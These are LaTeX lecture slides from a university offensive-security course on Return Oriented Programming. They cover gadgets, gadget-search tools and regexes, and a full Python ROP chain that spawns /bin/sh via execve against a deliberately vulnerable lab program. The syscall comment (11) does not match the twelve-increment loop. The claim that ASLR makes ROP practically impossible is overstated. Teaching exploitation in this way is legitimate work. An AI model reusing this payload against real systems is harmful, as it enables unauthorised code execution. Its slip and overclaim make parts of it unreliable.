\documentclass[11pt]{beamer}
\usetheme{Frankfurt}
\usecolortheme{crane}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{blt}
\usepackage{listings}
\usepackage{fancyvrb}
%\usepackage{circuitikz}
\author{Maximilian Heim}
\title{Return Oriented Programming}
%\setbeamercovered{transparent} 
%\setbeamertemplate{navigation symbols}{} 
\logo{ 
    
\includegraphics[width=0.09\textwidth]{./img/logo.png}
}
\institute{University Albstadt-Sigmaringen} 
\date{\today} 
\subject{Offensive Security Methods}
\AtBeginSection[]
{
    \begin{frame}
        \frametitle{Table of Contents}
        \tableofcontents[currentsection]
    \end{frame}
}
\begin{document}

\begin{frame}
\titlepage
\end{frame}

\begin{frame}{Outline}
\tableofcontents
\end{frame}

\section{Introduction}
\subsection{Basic information}
\begin{frame}
    \frametitle{What is Return Oriented Programming?}
    \begin{itemize}
    \item A type of attack that exploits buffer overruns in which we chain addresses of instructions right before returns.
    \item Arised as a technique to counter security mechanisms (NX)
    \item Research by Hovav Shacham et al in 2007, in 2008 the attack got demonstrated at Blackhat 2008 - "Return-oriented Programming: Exploitation without Code Injection" \url{https://hovav.net/ucsd/talks/blackhat08.html}
    \item Many authors refer to ret-to-libc/library as ROP, according to the founder of this technique it has to be differentiated and ROP describes chaining of small code segments
    \end{itemize}
\end{frame}

\section{How does it work?}
\subsection{Overview}
\begin{frame}
    \frametitle{Overview}
    \begin{enumerate}
        \item Search the binary for gadgets: return (0xC3) bytes that contain useful instructions before
        \item Generate a list of these gadgets, called ROP chain
        \item Generate a payload with the addresses of these gadgets
        \item Insert payload via buffer overrun
    \end{enumerate} 
\end{frame}
\subsection{ROP gadgets}
\begin{frame}
    \frametitle{ROP gadgets}
    \begin{itemize}
        \item Gadgets are machine instructions that end on a return
        \item Tools: ROPgadget (\url{https://github.com/JonathanSalwan/ROPgadget}), ropper (\url{https://github.com/sashs/Ropper}), Radare2, pwntools....
    \end{itemize}
    \bltResult{dumppick2}{Output of ROPgadget}{outputropgadget}

\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Write to register}
    \begin{itemize}
        \item Especially useful are pop instructions
    \end{itemize}
\begin{lstlisting}[style=result]
POP eax; ret;
\end{lstlisting}
    \begin{itemize}
        \item These allow us to write arbitrary values into registers
        \item Sometimes we dont find a desired pop, we can improvise. E.g. for r14:
    \end{itemize}
\begin{lstlisting}[style=result]
XOR r14, r14; pop r12; XOR r14, r12; ret;
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Load/Read from memory}
    \begin{itemize}
        \item Move instructions are also really useful
    \end{itemize}
\begin{lstlisting}[style=result]
mov [eax], ecx; ret;
\end{lstlisting}
    \begin{itemize}
        \item allows us to write into memory
    \end{itemize}
\begin{lstlisting}[style=result]
mov eax, [ecx]; ret;
\end{lstlisting}
    \begin{itemize}
        \item allows us to read a value from memory into a register
        \item Combined with pop this is very powerful
    \end{itemize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Useful gadgets: Arithmetics}
    \begin{itemize}
        \item add, sub, xor \ldots allow us to manipulate register contents
        \item Programs run in userspace with limited privileges, systemcalls allow to execute operations which require higher privileges.
    \end{itemize}
\begin{lstlisting}[style=result]
int 0x80; ret;
\end{lstlisting}
\end{frame}
\subsection{ROP chain}
\begin{frame}
    \frametitle{ROP chain with parameters}
    \begin{figure}[h]
        \caption{ROP Chain with parameter}
        \centering
        
\includegraphics[width=0.18\textwidth]{./img/gadgetstack.png}\label{gadget2}
    \end{figure}
\end{frame}

\section{How to find suitable Gadgets?}
\begin{frame}
    \frametitle{How to find suitable Gadgets?}
    \begin{itemize}
    \item Multiple methods, using the tools directly you can search gadgets of your liking, but we can also dump them into a file and search using regular expressions.
    \end{itemize}
    \bltCommand{ropcommand.sh}{Dumping Gadgets}{dumpgadget}
    \begin{itemize}
        \item Most of them are not very useful because they are very specific, but the amount compensates for that. 716 kB binary $\rightarrow$ 8236 Gadgets
        \item pop edx $\rightarrow$ \bltRegex{\^{}.\{0,20\}pop edx.\{0,20\}ret\textbackslash{}n}
        \item int 0x80 $\rightarrow$ \bltRegex{\^{}.\{0,20\}int 0x80}
        \item xor eax, eax $\rightarrow$ \bltRegex{\^{}.\{0,20\}xor eax, eax.\{0,20\}ret\textbackslash{}n}
    \end{itemize}
\end{frame}

\section{Example: Open a shell}
\subsection{Target Program and Compilation}
\begin{frame}[fragile]
    \frametitle{Target Program and Compliation}
    \bltCode{vuln_args.c}{c}{Target Program (stack protectors must be off)}{targetprogram}
    \bltCommand{compilation.sh}{Compilation command}{comp}
\end{frame}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ROPgadget we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11)
            \item init systemcall argument (address of /bin//sh)
            \item call systemcall
        \end{enumerate}
        \item All of this has to be done using Bytes that are not \Verb+\\0x00+ because thats the character used for identifying the end of a string.
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, defining all gadgets}
    \begin{lstlisting}[style=code, language=python]
from struct import pack
import os
data = 0x080e3020
xor_eax_eax = 0x0804e234 # xor eax, eax ; ret
pop_eax = 0x080ac96a # pop eax ; ret
pop_ebx = 0x08049022 # pop ebx ; ret
pop_ecx = 0x0807f9a3 # pop ecx ; ret
pop_edx = 0x0807f133 # pop edx ; and eax, 0xe850fffd ; ret
inc_eax = 0x0809fc6e # inc eax ; ret
int_80 = 0x080499c2 # int 0x80
mov_edx_eax = 0x0804eed2 # mov dword ptr [edx], eax ; ret
filler = 0x11111111
# Padding goes here
p = bytes('AAAAAAAABBBB', 'ascii')
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin//sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # write address of .data into edx
p += pack('<I', data)
p += pack('<I', pop_eax) # write /bin into eax
p += bytes('/bin', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
p += pack('<I', pop_edx) # address of .data + 4 into edx
p += pack('<I', data + 4)
p += pack('<I', pop_eax) # //sh into eax
p += bytes('//sh', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # address of .data + 8 into edx
p += pack('<I', data + 8)
p += pack('<I', xor_eax_eax) # clear eax
p += pack('<I', mov_edx_eax) # write null after /bin/sh
p += pack('<I', pop_ebx) # write address of program name to ebx
p += pack('<I', data)
p += pack('<I', pop_ecx) # write arguments into ecx
p += pack('<I', data + 8)
p += pack('<I', pop_edx) # write env into edx
p += pack('<I', data + 8)
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload: Init eax, call syscall}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', xor_eax_eax) # set eax to 11 (execve)
for i in range(12):
    p += pack('<I', inc_eax)
p += pack('<I', int_80) # call interrupt
print(str(p)[2:-1])
with open('payload', 'wb') as file:
    file.write(p)
    \end{lstlisting}
\end{frame}
\section{Conclusion}
\begin{frame}
    \frametitle{Conclusion}
    \begin{itemize}
        \item Return Oriented Programming is a very powerful technique
        \item It is able to execute any system call if there are enough rop gadgets
        \item There are many tools to simplify the process of finding ROP gadgets and generatating ROP payloads
        \item Modern desktops use aslr and other protection mechanisms $\rightarrow$ practically impossible to use ROP
    \end{itemize}
\end{frame}

\section*{Sources}
\begin{frame}
    \frametitle{Sources}
    \url{https://trustfoundry.net/basic-rop-techniques-and-tricks/}
    \url{http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf}
    \url{https://www.proggen.org/doku.php?id=security:memory-corruption:exploitation:rop}
    \url{https://shell-storm.org/talks/ROP_course_lecture_jonathan_salwan_2014.pdf}
\end{frame}

\end{document}